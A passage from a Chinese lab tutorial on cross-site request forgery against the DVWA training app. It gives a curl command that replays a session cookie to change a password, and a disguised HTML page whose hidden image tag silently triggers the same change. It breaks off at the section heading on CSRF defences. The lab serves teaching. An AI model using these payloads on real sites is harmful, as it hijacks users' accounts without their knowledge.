 注意此处的 cookie 应该输入你自己的 cookie，然后在 URL 中 password 输入自己想输入的 URL。

执行了之后我们可以看到为我们返回了一个页面的源代码回来：

![show-code](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822506572.png/wm)

细心的同学会找到 `<pre> Password Changed </pre>` 的字样，说明我们修改成功了。

若是不想找，我们还可以把刚刚的命令修改成这样：

```
curl --cookie "security=low; PHPSESSID=fefebfdeb6c27d8fac926ee5b735b714" --location "http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou&password_conf=shiyanlou&Change=Change#" | grep Password
```

![show-code-changed](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822531186.png/wm)

验证一下我们是否成功登陆，只需要关闭浏览器、重新打开尝试登陆，或者点击左下角的 `logout` 然后重新登陆便可知道。

还可以通过这样的方式让用户在不知不觉下就中招（该创意参考于 [tipstrickshack_blog](http://tipstrickshack.blogspot.com/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html)）：

创建一个 404 的页面，使用 img 标签，使用 css 来使其不现实，这样用户就在不知不觉直接就中招了。

首先我们在 shiyanlou 账户的终端下创建一个 test 的 html：

```
vim test.html
```

然后在该文件中存放这样的内容：

```html
<html>
<body>

<img src="http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou_html&password_conf=shiyanlou_html&Change=Change#" border="0" style="display:none;"/>

<h1>Welcome to nginx!</h1>

</body>

</html>
```

可以看到，我们就用了两个标题 404、无法找到来迷惑大家，然后用 img 标签使其自动加载我们放置的钓鱼连接，但是不显示，这样就算中招了也不知道。

保存退出后，我们在家目录中找到该文件：

![show-file](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822556032.png/wm)

双击后会在 firefox 中打开，成功加载后，我们回到 DVWA 平台，我们 `Logout` 后，再次登陆我们会发现密码已经变了，无法登陆。

这就是 CSRF，利用 cookie 就是伪造用户，来做一些他们并不知道的事情。

### 5.4 CSRF 防范
